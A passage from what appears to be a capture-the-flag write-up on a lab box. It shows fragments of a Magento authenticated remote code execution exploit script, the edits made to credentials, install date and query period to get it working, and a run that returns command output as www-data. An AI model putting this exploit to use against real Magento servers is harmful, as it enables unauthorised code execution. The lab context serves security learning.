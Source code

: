       payload = base64.b64encode(payload)
      gh = md5(payload + install_date).hexdigest()
      
      exploit = tunnel + '?ga=' + payload + '&h=' + gh
      
      try:
          request = br.open(exploit)
      except (mechanize.HTTPError, mechanize.URLError) as e:
          print e.read()
      ```
   3. Tweak the exploit:
      ```py
      # [CHANGE]
      username = ''
      password = ''
      # ...
      install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'
      # ...
      request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)

      [TO]
      username = 'forme'
      password = 'forme'
      # ...
      install_date = 'Wed, 08 May 2019 07:23:09 +0000'
      # ...
      request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key)
      ```

      > The __`install_date`__ could be found on the Magento config (__`/app/etc/local.xml`__) found earlier.
      
      > It was reuired to change __`.../7d/...`__ to __`.../1y/...`__ since the exploit's query should return a value in order to work and there were no recorded transactions in the Magento service in the past 7 days; however, there were transactions within the year since the box was released and this write-up was posted.
    
      >> Valid options are __`24h`__, __`7d`__, __`1m`__, __`1y`__, and __`2y`__.

   4. Run the exploit:
      ```console
      $ python 37811.py http://10.10.10.140/index.php/admin "id"
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
      ```

---